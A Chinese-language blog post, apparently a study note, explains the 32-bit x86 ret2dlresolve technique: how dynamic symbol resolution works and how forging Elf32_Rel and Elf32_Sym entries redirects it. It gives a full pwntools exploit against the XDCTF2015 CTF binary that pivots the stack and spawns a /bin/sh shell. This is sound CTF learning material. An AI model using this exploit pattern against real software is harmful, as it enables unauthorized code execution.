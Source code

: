 # pwn初学者的进阶（二）：ret2dlresolve学习记录


花了一个上午时间，看了一下ret2dlresolve的基本原理与基本的利用过程。觉得步骤与相关细节要素还是蛮多的，为防止今后某一天再用到的时候忘得干干净净，特此记录一些我个人的理解，加深印象。

<!--more-->

## 0x00 dlresolve原理

以下内容是32位x86平台相关，64位的ret2dlresolve我还没看。

这一部分内容需要记住的就是符号解析的过程，也是dlresolve执行的过程，同时也是ret2dlresolve生效的核心原理。

在符号解析过程中，有三种数据结构：`ELF32_Rel`、`ELF32_sym`、`.dynstr中的字符串`，分别位于`.rel.plt`、`.dynsym`、`.dynstr`节（section），查看这些节的命令为

```bash
readelf -S elf_name
```

在程序第一次调用某个函数时，关于plt处指令以及push操作什么的就不细说了，我认为整个流程大致可以这么理解：

- `func@plt`处的指令相当于先push一个`offset`值，然后调用`plt[0]`处的指令，这条指令相当于执行`_dl_runtime_resolve(link_map_obj, reloc_index)`，这里的`reloc_index`就是前面`func@plt`push的`offset`

- 接下来就是三步走了，从函数原型`_dl_runtime_resolve(link_map_obj, reloc_index)`出发，根据`reloc_index`（相对于`.rel.plt`的字节偏移量，单位：字节）找到`.rel.plt`中的`ELF32_Rel`对象（大小为8字节），其中记录了一个`r_info`
- 再根据`r_info`（相对于`.dynsym`的索引，单位：0x10字节）找到`.dynsym`中的`ELF32_sym`类型对象（大小为0x10字节）
- 再根据`ELF32_sym`中的`st_name`字段（相对于`.synstr`的字节偏移量，单位：字节），找到`.dynstr`中的字符串，也就是函数名（正常执行流程是这样的），然后dlresolve从libc中查找，再计算实际地址，将其填入`ELF32_Rel`对象中的`r_offset`字段...

整个流程概括起来就是，`func@plt`给`_dl_runtime_resolve`传参数，`_dl_runtime_resolve`根据其参数去查询上面的那几个表获取函数名称，然后对libc进行解析，获取实际地址，写入got表。

## 0x01 攻击方法

感觉很多题都可以栈迁移，再加上如果`.bss`段可写的话，我们就可以控制将函数栈迁移到自己构造的栈上。

 于是，最常规的攻击步骤就是：

- 栈迁移，然后调用`plt[0]`处指令
- 控制栈上的参数（对于`_dl_runtime_resolve`而言），以及想要调用的函数的参数（比如`system`）
- 再在栈上构造对应该参数的`ELF32_Rel`类型对象
- 再在栈上构造对应`ELF32_Rel`中`r_info`的`ELF32_sym`类型对象
- 再在栈上构造对应于`ELF32_sym`中`st_name`的字符串

所以一个典型的exp为：

```python
from pwn import *
elf = ELF('./parelro_x86')
offset = 112
read_plt = elf.plt['read']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b # ROPgadget --binary parelro_x86 | grep 'pop ebp ; ret'
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
plt_0 = 0x08048380 # objdump -d -j .plt bof  执行 <push link_map，jmp dl_resolve>
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof

# 栈迁移的目的地
base_stage = bss_addr + stack_size

index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278

# fake_sym_addr 地址按照0x10字节对齐
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align

index_dynsym = (fake_sym_addr - dynsym) // 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7 # 要满足：ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT，即最低字节要为7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)


r = process('./parelro_x86')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = b'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = b"/bin/sh"

# stage3: 
# 栈迁移，调plt[0]，传入伪造的 index_offset，指向我们自定义的.rel.plt表项内容
# 并且控制r_info，指向我们伪造的.dynsym表项；再控制.dynsym表项中的st_name，指向我们控制的.dynstr表项内容
# --------> base_stage
payload2 = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80) # 对应system('/bin/sh')
payload2 += p32(0xdeadbeef) # 后面的2个参数不需要了
payload2 += p32(0xdeadbeef)
# (base_stage+28)的位置
payload2 += fake_reloc
# (base_stage+36)的位置
payload2 += b'B' * align
# (fake_sym_addr)的位置
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
# base_stage + 80
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
# payload2结束，刚好100字节

r.sendline(payload2)
r.interactive()
```

写一遍下来，感觉在没有完完全全弄透彻的情况下，通过文字描述清晰还是比较难的，但也只能先这样了:no_mouth:



## 参考链接：

- 《ctf竞赛权威指南(pwn篇)》--$10.6:ret2dl-resolve
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/) （复现平台：ubuntu16）
- [CTF Wiki: ret2dlresolve](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/)
- [[原创]高级栈溢出之ret2dlresolve详解(x86&x64)，附源码分析](https://bbs.pediy.com/thread-266769.htm) （和上两篇博文差不多，但是_dl_runtime_resolve()的执行过程写得很清晰，给作者点个赞）


